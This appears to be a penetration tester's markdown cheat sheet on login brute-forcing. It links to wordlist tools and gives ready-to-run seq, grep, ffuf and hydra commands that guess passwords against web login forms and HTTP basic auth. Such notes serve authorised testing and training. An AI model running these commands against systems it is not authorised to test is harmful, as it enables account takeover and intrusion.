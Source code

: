 # Login bruteforcing
- [SecLists](https://github.com/danielmiessler/SecLists)
- [SecLists Kali page](https://www.kali.org/tools/seclists/)
- [CUPP](https://github.com/Mebus/cupp)
- [Username anarchy](https://github.com/urbanadventurer/username-anarchy)

## Basic seq
```
seq -w 0 9999 > numbers.txt
```

## Rule filtering
```
grep -E '^.{6,}$' wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > wordlist-filtered.txt
```

## Bruteforcing
- [Hydra Kali page](https://www.kali.org/tools/hydra/)

### POST web form
```bash
ffuf -w ./wordlist.txt -u <url> -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=user&password=FUZZ" -fr "Invalid credentials"
```
```bash
hydra -l admin -P passwords.txt <host> http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```
```bash
hydra -l admin -P passwords.txt <host> http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```

### Basic http auth
```bash
hydra -L usernames.txt -P passwords.txt <host> http-get
```

### Bruteforce without wordlist
Password range from 4 to 8 in length, all characters and numbers
```bash
hydra -l admin -x 4:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 <host> # ...
```